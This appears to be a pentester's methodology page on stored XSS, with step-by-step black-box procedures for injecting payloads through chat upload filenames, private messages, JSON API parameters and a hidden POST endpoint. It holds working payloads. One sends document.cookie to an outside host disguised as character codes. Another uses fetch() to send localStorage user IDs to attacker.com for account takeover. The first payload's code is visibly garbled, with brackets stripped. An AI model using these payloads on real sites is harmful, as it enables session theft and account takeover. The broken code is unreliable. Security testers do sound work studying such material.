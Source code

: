 # Stored Cross Site Scripting

## Check List

## Methodology

### Black Box

#### Blind XSS

{% stepper %}
{% step %}
Set up an HTTP/HTTPS proxy (e.g., Burp Suite) and enable Intercept
{% endstep %}

{% step %}
Open the target support/chat interface and start uploading a file to the chat
{% endstep %}

{% step %}
When the upload request is captured, pause it in the proxy (Intercept)
{% endstep %}

{% step %}
Modify the filename field in the intercepted upload request to the exact string below

```javascript
"><img src=1 onerror="url=String104,116,116,112,115,58,47,47,103,97,116,111,108,111,117,99,111,46,48,48,48,119,101,98,104,111,115,116,97,112,112,46,99,111,109,47,99,115,109,111,110,101,121,47,105,110,100,101,120,46,112,104,112,63,116,111,107,101,110,115,61+encodeURIComponent(document['cookie']);xhttp=&#x20new&#x20XMLHttpRequest();xhttp'GET',url,true;xhttp'send';
```
{% endstep %}

{% step %}
Forward the modified request so the file with the altered filename appears in the chat
{% endstep %}

{% step %}
Open or refresh the support chat page; when the filename containing the payload is rendered, the XSS should trigger
{% endstep %}
{% endstepper %}

***

{% stepper %}
{% step %}
Go to another users profile
{% endstep %}

{% step %}
Click private message
{% endstep %}

{% step %}
Type any subject
{% endstep %}

{% step %}
Type the following message `Test<iframe src=javascript:alert(1) width=0 height=0 style=display:none;></iframe>`
{% endstep %}

{% step %}
Send the message
{% endstep %}

{% step %}
View the message (triggers the XSS)
{% endstep %}

{% step %}
Wait for the victim to read the message
{% endstep %}
{% endstepper %}

***

#### XSS In JSON Parameter

{% stepper %}
{% step %}
Log in and browse the site while keeping Burp Suite active
{% endstep %}

{% step %}
After checking the api requests that contain json parameters, check them
{% endstep %}

{% step %}
After checking once again, you will go to this api that has been created and a request has been made, and intercept the request
{% endstep %}

{% step %}
Inject inside parameters using XSS payloads

{% hint style="info" %}
We can also inject into the ipAddress parameters
{% endhint %}
{% endstep %}

{% step %}
For example, the request below is a real example

```json
{
    "ipAddress": "<svg on onload=(alert)(document.domain)>",
    "callBackURL":"dssdsd"
}
```
{% endstep %}

{% step %}
After sending the request to the server, it may give us an error code 400 in the response, but after sending the request, the payload was injected and the vulnerability occurred
{% endstep %}
{% endstepper %}

***

#### localStorage Data Exfiltration To An Attacker Server Via XSS

{% stepper %}
{% step %}
Open Chrome DevTools Press F12, navigate to Sources > Page tab
{% endstep %}

{% step %}
Search JavaScript Files Use Ctrl+F to search for keywords: path:, url:, api/, v1/
{% endstep %}

{% step %}
Identify Hidden Endpoint Locate unlinked POST endpoint like /platform/apps/lighthouse-homepage from fetch() call
{% endstep %}

{% step %}
Test Basic XSS Payload Submit POST request with body: {"userInput": "\<a href="javascript:alert(1)">clickme"}
{% endstep %}

{% step %}
Verify XSS Execution Confirm alert(1) popup proving unsanitized rendering
{% endstep %}

{% step %}
Inspect LocalStorage In DevTools Console, run JSON.stringify(localStorage) to identify sensitive keys
{% endstep %}

{% step %}
Craft Regex Exfiltration Payload , use&#x20;

```html
<a href="javascript:var match=JSON.stringify(localStorage).match(/ZNavIdentity\.userId=[^&]+&currEntityId=[^&]+/);if(match)fetch('https://attacker.com/?data='+encodeURIComponent(match[0]))">Click to "Verify"</a>  
```
{% endstep %}

{% step %}
Submit Stored XSS Payload POST {"userInput": \[above payload]} to store malicious link
{% endstep %}

{% step %}
Monitor Attacker Server Check https://attacker.com for exfiltrated userId and currEntityId from LocalStorage
{% endstep %}

{% step %}
Verify Account Takeover Confirm stolen PII enables full account access and privilege escalation
{% endstep %}
{% endstepper %}

***

### White Box

## Cheat Sheet
